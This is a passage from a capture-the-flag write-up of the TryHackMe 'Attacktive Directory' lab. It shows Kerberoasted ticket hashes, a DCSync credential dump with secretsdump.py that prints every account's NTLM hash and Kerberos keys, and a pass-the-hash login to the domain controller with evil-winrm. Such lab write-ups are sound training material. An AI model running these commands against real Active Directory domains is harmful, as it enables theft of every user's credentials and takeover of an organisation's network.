$krb5tgs$23$*svc-admin$SPOOKYSEC.LOCAL$spookysec.local/svc-admin*$f3e83db1da95f0037995da867d07f329$57965e4169f8010408a625341c2eea4ed9056a39baaed4e8c4729c6fd08fadccfcf7dbfb441e2378e1c9d77fc392fbb3719cf2016f1d6a9fffddb2b01efff12db9977adc812beb44c24acef1e9598b400584a665c575c12297835269f0313c27fabc801027c8339983f0766ae290ee63e691ae5b2e94c0939cf6342e0cf81cf2f53516cdc3a54636a8e3cdd1d39596d55d021b8df3a01866f0ce052d55c451039f6a93ea4c505cd6da759e8767144b068177f8ae7c366894106585355fc11ace28d1f228dcb62141adb1eaa263e5567bcad71215190039d9db05342efa49f2f3204496a1eb6d654d2517918c2703d780df0857eae88dd462b558165adf171c26e7a100704015bdbf4eda682487f1c9ee7da635bc49a37210ca3eed139b2e8c8eebfd46a15a4a83dad6838bf6409f49be975a17c961cfc3e67121712e770beb6a73e918615f2b2291bd62df5d821d5cb10daaef90d915ece52c152c264b8fd1f120c6d23eba03a12ce9a226aaa04dd7d9774f43c1baa9e80213e92a1ed3942e796ed4e0dafb5c408aa75340b198ea2e0de9b71a8422751f2998bf7357c7efcbee2a89ab51c5412e02f5d313345eeff149ca05410b2d4cf4a29ca80fcac73d4571eb527f5910ba9d6f97302879484ca70be43c180d365a23b344758369c0d903e886fed52d87c543b7fcb80368ccf65202d577d32cc1bceef4a319615327239ac9b6cf845e4ac20ab0d7d2b4d4856d872e1845667645de85b6961ae4b93978578228964e65311b2770e5b8f3e547f1cc82c41e0bcb3fc73a7fe153a4312ddf435d238a7c1c8973644cd28cac9c49d61ec6768e17fb10be95affedef88a3308078b3457eb41728f03bf6cc2950d75f0b6b4c440ce3e6447175ac44bd6fc638cd76b5a47120689e2b4c066d47d9e345ff5d6ef9dabecf33c1e38011a370319f836486095998c86e0c06b51ea02b121564f6fcb18800c568fa6c48a66d06a5adba5f6e8721fabe15b38eb0794f7cedd2aea645757d731e091bfc37341aa53c10cdf2c1d9208c9646348bc48e9956fc7c358716099b995ad573c42cd6d78d6aa62d0301d3f42ef86f81a73049a32a38b59d7a7ebd8eef1fce976f07c83bf5ff51929b9a4fd52d8fcbe5c514c04ee6274adf1972f5cb55920969cdc4d682b6dee83f6530fa04194ae74c6e9a27672b64eb791ec0c592c7fb6ee7c25f3a61f66716fc0ceff0ae52e46363c51ead8de662250e04189c3825f3f3c98d68573217985a8c0500b5fd1660b006ea1b83d076cf9114b7d45c7f83298b4820245a3ea4f59e0063efc8e68e64957d3b130e75935b148904cf1aada8ce367
[VERBOSE] SPN removed successfully for (svc-admin)
[VERBOSE] SPN added successfully for (backup)
[+] Printing hash for (backup)
$krb5tgs$23$*backup$SPOOKYSEC.LOCAL$spookysec.local/backup*$a7a3995cf76e4c1c69149285b4f39a21$3f67120939b15ad407673a00aa35f55c742b0c3fe107633eced404a9a29e3a996b25d361bc8f94253e739b8ae04d2584345026b9ede70f2a6738aff1d12f1bfd958af5413936c46013e7d2442249003e49322391d4243a24236faf31762b6396e1c65edbce04645f7a91a619a87dade94ae432ce3f7beac7833ed9fd5bd2060af8ba950cd29b612abf5789960bffc0540acff92554c99b5620d5a3c7bb94b8c0d6e5919fe6f94e400196b9fdf0a5f66bfd0ad28093a5219c2e4869f56b0c3efb230824984b27e6ed3d61ec2adb4d10e9d7cbe45e939b90bb1ec36a8831b20e66e7a1e4e0f1742ee2152e0d3dcc63b0e4ab6989eb7fddb02d5b0d40e04e70e7cea389bc80990ece4aa40e6bbbabeb50a564d81049bd2e1677172191ca1e415dd27d3c2616e4d609a04ca47b7468f88e01478da109f52278cbe8f2d534e188dbfc8aeaa1bb125f8c3a4fde4839350c624c8ad8eea5cac9f8aa795862a4591d88407b7838341b2cae187ea600faa4a5804d6ffa61135fe9f8b934007be1a42057f5ae802e69dcd6e2500322774b776fb1090750836e91ba862f5ae18100c1f374fc09bdcdff166dfc744ffa2eb6463606b9dd9652e26e91190e056c7c4b5ca7586c8912f23ac00451dde5eff769971f49baabcb48ba8f136526b37d56a5a110d6d84321662bf86ad31a403ddcf4f56e230f5a8a354d9d0aaf1349fac3742c1177917a832d5e0fc2193215308d54b4428cd88377b7489d446057e9d1ce88ca6cc4ec6052ec985b2afe4c469e5f04b9fa8c9993f58cf33d87935cdbd40ad1de32e927d12d32ebc7edb57dcfe9ab7cf107577ced722b417722835feca9ddcb899eaef271e571037aad67f37f1437a30d265510f29a2a4acf775dd483ce781594a91ac8efe002f04bc3de2721ed17e2ebc8c8fe2e7aac51eef0ffbf9c6945e6a33651ab043e981429cad3ba9e500340cfd2ba03acd5f53a8fbec74b8acc2e6135bd70659814678b41b60f8bd4a1c813613aba8a2429b04bb74e4ac97c64281540dae19e5d4bef90dd9e2457d3604c05dd07cd9add636fc9c6b239ab547002415725dd072b2618788cf1c366e2e3ecd6c1866b4b80549db33e6b2caecc481149aded9aa216f4c5603e369dce6ef5c87873d203bf12e4e5ab4bcfb4adb236761cffbd6fc91ecd3846135a62131e67ae71bf04581651e93d4cc99ebf48858039ed108e74dddd5c67da88a826cde5e160925056907d18b59db7253cfdac238238556ba755479da7c082792a228cc013015613640d82e46dc1dc4c1c13dd380556fef1c1f6190c335f67d373d8a036b737859c562e1a06b47c714231
```

That kerberoasting attempt handed back TGS tickets for essentially every user, but rather than spend time cracking each one, I went back to what BloodHound had already told me: the `backup` account holds the **"Replicating Directory Changes"** and **"Replicating Directory Changes All"** rights on the domain, the two ACL entries that together make DCSync possible. In practice that means `backup` can request the domain controller replicate credential data to it exactly as if it were a peer DC, without ever needing a shell on the box itself. With valid `backup` credentials already in hand from the earlier share, running `secretsdump.py` against the domain was the natural way to cash that permission in for every NTLM hash and Kerberos key in the environment.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Tue May 07, 20:12]
└─[$]> python3 ~/ADTools/impacket/examples/secretsdump.py -just-dc backup@spookysec.local 
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:b1e9d0f66b645c5d4cfac637881ddad2:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:e7c1b23956daa8984544c5e718f184592cee6fddd65dcc4890152eea73477f1c
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:d3726c15408384b69eb88fb40a6d04e9
ATTACKTIVEDIREC$:des-cbc-md5:2a1f73869d9232df
[*] Cleaning up... 
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Attacktive Directory] - [Tue May 07, 20:14]
└─[$]> evil-winrm -H "0e0363213e37b94221497260b0bcb4fc" --ip 10.10.161.64  -u 'Administrator'                                 
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

With the Administrator NT hash pulled straight out of that dump, there was no need to crack anything further. NTLM authentication accepts the hash itself in place of the plaintext password, so passing it directly to `evil-winrm` gave me an interactive session as Administrator on the domain controller, full domain compromise, and both flags, without ever needing to know the actual password.
